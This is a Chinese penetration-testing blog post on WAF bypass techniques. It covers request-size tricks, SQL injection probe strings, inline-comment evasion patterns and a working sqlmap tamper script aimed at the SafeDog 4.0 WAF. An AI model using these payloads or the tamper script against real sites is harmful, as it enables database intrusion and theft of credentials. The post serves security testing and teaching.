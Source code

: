 ```yaml
---
date: "2017-03-07T00:00:00Z"
description: 某些Web服务器的特性不一，导致WAF在判断时候无法完全工作。经常出现的情况大部分都是协议层与Web服务器之间WAF没有很好的处理请求，导致无法拦截很多生僻的攻击手法，那么我们先从GET、POST先说起。
title: 渗透测试中的Bypass技巧（三）自动化注入
url: /archivers/2017-03-10/1
---
```



## 0x00 匹配资源大小限制

某些Web服务器的特性不一，导致WAF在判断时候无法完全工作。经常出现的情况大部分都是协议层与Web服务器之间WAF没有很好的处理请求，导致无法拦截很多生僻的攻击手法，那么我们先从GET、POST先说起。

Get方法提交的数据大小长度并没有限制，HTTP协议规范没有对URL长度进行限制。这个限制是特定的浏览器及服务器对它的限制。可见WAF可能在处理GET请求的时候，根据客户端（浏览器）规定的长度去匹配了，这就造成了一个缺陷。我们可以把有效数据放在这个限制的零界点，攻击语句放在零界点后方，让WAF以为这是一个正常请求，就随之放行，达到了攻击效果。

理论上讲，POST是没有大小限制的。HTTP协议规范也没有进行大小限制，起限制作用的是服务器的处理程序的处理能力。

例如在使用PHP进行POST提交时，文件大小受PHP配置文件PHP.INI限制，我们可以修改PHP.INI文件中的post_max_size参数，可将默认的2M字节，修改自己需要的大小，但由于HTTP协议的特性，这个值不宜设置过大，最大以8M为宜。假设如果服务器端设置了8M，而WAF默认只匹配2M，由此可见服务器端接受数据的大小>WAF匹配的数据最大大小。那么，我们可以根据上述方法，也可绕过WAF的拦截。


## 0x01 绕过某WAF上传

渗透测试中的Bypass技巧（二） - 知乎专栏

在上一章中我们已经举例了一个bypass上传，最重要的彩蛋就在Bypass注入啦~

## 0x02 绕过某WAF注入

我们构造一个SQL注入页面，慢慢去研究它的拦截规则：

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-309291e5dd2a98bf8796bf049e7cb731_r.jpg)

先从普通的语句开始做定位：

* and 1=1

* and ‘s’=’s’

* union select 1,2,3

* `union/**/select/**/user(),2,3`

* ......

* 等价替换
* And ‘s’ like ‘s’

此时我们已经可以使用like用于盲注（此时可以将所有的 = 替换成 Like ）

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-d05618b362ce592aa4cb8b8381620b7a_r.jpg)

### 注释

我们可以设想出拦截的特征正则

union与select同时出现会被拦截，union\[空格,%20,/\*部分字符\*/\]select都会被拦截，目前普通的union select都会被拦截，既然空格,%20都会被匹配到，我们只能通过/\*\*/内联来注释了（目前发现N多姿势，在这里只共享思路+一个bypass的tamper脚本）

* `/**/`

* `/*数字+字母*/`

* `/*特殊符号+数字+字母*/`

* .....more


假设union左右如果有select就拦截的话，那么定位union与select之间的敏感字符就好，假设union`[空格]`select，此时如果把空格替换成任意内联，就可bypass这个规则，此时规则也不可能是一条的。条件也是很多的。我们也只能讲内联这个规则做手脚了。

于是乎我发现`/*^xxx^xxx*/`字母加特殊字符即可bypass。

因为每个特征中都没有匹配到^与小写字母、大写字母、数字的组合，这些条件可以继续测试，笔者已经把此文写到最佳精简，测试期间也翻看过拦截日志，定位拦截特征。

（Union注入）例如在读取：mysql密码、表名的时候，我们还会查询information_schema数据库，这个可以转换大小写，或者在information_schema.TABLES直接再添加一个注释。下面就是测试过程：首先测试简单的and 1=1


![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-8496c213549317823092929a2764f72a_r.jpg)


然后我们使用注释bypass:

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-79b4d5253c14457c4e4493b438b4231e_r.jpg)

此时已经bypass成功了，我在这里用的是某dog 4.0（3.5也可以）

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-f54a5d6fe18955781f3d14a8802d3d7b_hd.jpg)

## 0x03 自动化bypass注入

我们通过编写sqlmap的tamper用于bypass，主要是需要定位各种拦截点，使用sqlmap替换Payload。

首先在sqlmap的tamper文件夹里创建一个safedog.py，编写我们的tamper脚本

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-78c541db6e25a98c01a0d3556fd5d321_r.jpg)

```python
#!/usr/bin/env python
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW

def tamper(payload):
    if payload:
		bypass_SafeDog_str = "/*x^x*/"
		payload=payload.replace("UNION",bypass_SafeDog_str+"UNION"+bypass_SafeDog_str)
		payload=payload.replace("SELECT",bypass_SafeDog_str+"SELECT"+bypass_SafeDog_str)
		payload=payload.replace("AND",bypass_SafeDog_str+"AND"+bypass_SafeDog_str)
		payload=payload.replace("=",bypass_SafeDog_str+"="+bypass_SafeDog_str)
		payload=payload.replace(" ",bypass_SafeDog_str)
		payload=payload.replace("information_schema.","%20%20/*!%20%20%20%20INFOrMATION_SCHEMa%20%20%20%20*/%20%20/*^x^^x^*/%20/*!.*/%20/*^x^^x^*/")
		payload=payload.replace("FROM",bypass_SafeDog_str+"FROM"+bypass_SafeDog_str)
		#print "[+]THE PAYLOAD RUNNING...Bypass safe dog 4.0 apache version ."
		print payload
    return payload
```

我们测试一下先不载入tamper脚本：

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-66446e8f8f6a49347e8a181bfbf79b73_hd.jpg)

到了这基本没戏了，我们看看拦截日志

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-38178932222e08df8395ac117fa8ec6d_r.jpg)

现在载入tamper脚本：

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-070979a6ee68c8f3c0fc0ce384fd12a9_r.jpg)

可以看到已经载入，并且识别了waf指纹。



以下是跑脚本的过程

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-3cbe15d14ddef776ddca44a353768be6_r.jpg)

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-40d2293817e8e2a87d4281d71fe5f9d2_hd.jpg)

支持布尔值注入

支持union注入

![enter description here](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-2/v2-091cfa9e51da47e78bf301db3c35f95b_hd.jpg)